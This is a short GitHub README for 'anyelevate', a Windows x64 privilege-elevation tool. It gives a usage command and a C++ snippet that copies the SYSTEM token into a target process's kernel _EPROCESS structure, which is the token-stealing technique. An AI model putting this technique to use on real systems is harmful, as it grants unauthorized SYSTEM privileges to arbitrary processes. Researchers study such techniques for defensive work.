

<p align="center">

  


</p>

# anyelevate
x64 Windows privilege elevation using anycall

# Usage

```bash
anyelevate.exe [process id]
```

- `[process id]` process id to elevate privilege

# How

Simply create copy of `nt!_EPROCESS.Token` in any desired target process.

```cpp
kernel::memcpy(
    ( void* )( ( uint64_t )process + RVA_PEPROCESS_TOKEN ),
    &system_process_token,
    sizeof( EX_FAST_REF ) );
```

## License

MIT copyright Kento Oki \<hrn832@protonmail.com\>

[color-console](https://github.com/kkent030315/anyelevate/blob/main/anyelevate/color.hpp) copyright 2018 Lei Fu
